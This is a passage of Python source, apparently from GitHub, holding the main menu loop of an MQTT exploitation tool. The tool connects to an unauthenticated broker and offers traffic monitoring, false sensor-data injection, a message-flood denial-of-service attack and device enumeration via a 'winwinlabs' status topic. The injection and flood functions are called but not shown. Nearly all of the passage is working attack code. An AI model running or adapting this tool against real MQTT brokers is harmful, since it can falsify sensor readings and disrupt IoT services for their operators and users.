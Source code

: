 ```python
    client.on_message = on_message
    
    # Connect to broker (no authentication needed!)
    print(f"\n[*] Connecting to {MQTT_BROKER}:{MQTT_PORT}...")
    try:
        client.connect(MQTT_BROKER, MQTT_PORT, 60)
    except Exception as e:
        print(f"[-] Connection failed: {e}")
        return
    
    # Start network loop in background
    client.loop_start()
    
    # Wait for connection
    time.sleep(2)
    
    # Menu
    while True:
        print("\n" + "="*60)
        print("EXPLOITATION OPTIONS:")
        print("="*60)
        print("1. Monitor all MQTT traffic (passive)")
        print("2. Inject false sensor data")
        print("3. DoS attack (flood messages)")
        print("4. Enumerate connected devices")
        print("5. Exit")
        print("="*60)
        
        choice = input("\nSelect option: ")
        
        if choice == "1":
            print("\n[*] Monitoring MQTT traffic...")
            print("[*] Press Ctrl+C to stop")
            try:
                while True:
                    time.sleep(1)
            except KeyboardInterrupt:
                print("\n[*] Monitoring stopped")
                
        elif choice == "2":
            inject_false_data(client)
            
        elif choice == "3":
            dos_attack(client)
            
        elif choice == "4":
            print("\n[*] Enumerating devices...")
            print("[*] Listening for status messages...")
            client.subscribe("winwinlabs/+/+/status")
            time.sleep(10)
            
        elif choice == "5":
            print("\n[*] Exiting...")
            client.loop_stop()
            client.disconnect()
            break
        
        else:
            print("[-] Invalid option")

if __name__ == "__main__":
    main()
```